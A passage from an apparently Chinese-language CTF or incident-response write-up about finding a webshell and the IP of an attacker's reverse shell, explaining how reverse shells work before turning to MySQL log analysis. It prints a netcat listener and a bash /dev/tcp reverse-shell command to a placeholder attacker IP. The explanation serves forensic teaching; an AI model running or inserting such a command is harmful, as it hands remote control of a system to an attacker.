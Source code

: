 **[河马](https://n.shellpub.com/)**​ **（注意需要先压缩html）**

​![在这里插入图片描述](assets/net-img-88614c23e6884095b06f3137efa54d8d-20240705155247-xvd3k2m.png)​

**类似的例子很多都可导出源码丢进工具进行查杀webshell，这里不在进行举例；**

#### 步骤#1.2

##### 2.黑客反弹shell的ip flag{ip}

<font color="#ff0000">解题思路</font>

让我们找出黑客反弹shell的ip是什么，那我们先简单了解一下反弹shell的原理，反弹Shell（Reverse Shell）的原理是攻击者通过在目标系统上运行恶意代码，使得目标系统主动与攻击者的控制服务器建立连接，从而绕过防火墙和其他安全措施。

**反弹Shell的工作原理**

1. **攻击者准备监听**：攻击者在其控制的服务器上启动一个监听程序（通常是一个Netcat或类似工具），等待目标系统主动连接。

    ​`nc -lvp 4444`​

    这里，`-l`​表示监听模式，`-v`​表示冗长输出，`-p`​指定端口。
2. **目标系统执行恶意代码**：攻击者通过漏洞利用、社交工程等手段，在目标系统上执行恶意代码。这段代码会打开一个Shell，并尝试连接攻击者的服务器。

    ​`/bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1`​

    这个命令的作用是通过TCP连接攻击者的IP地址和端口，并将输入和输出重定向到这个连接上。
3. **建立连接**：目标系统主动向攻击者的服务器发起连接请求。由于是目标系统主动连接，一般不会被防火墙阻拦。
4. **攻击者获得Shell访问**：一旦连接建立，攻击者就可以在其控制服务器上得到一个远程Shell，能够像在本地终端一样执行命令，控制目标系统。

那这里要找出黑客反弹的shell，我们可以通过查看日志进行分析；

**基本步骤；**

* **检查日志文件**：查看MySQL的日志文件，特别是查询日志和错误日志。这些日志可以提供关于执行的查询和任何异常情况的信息。
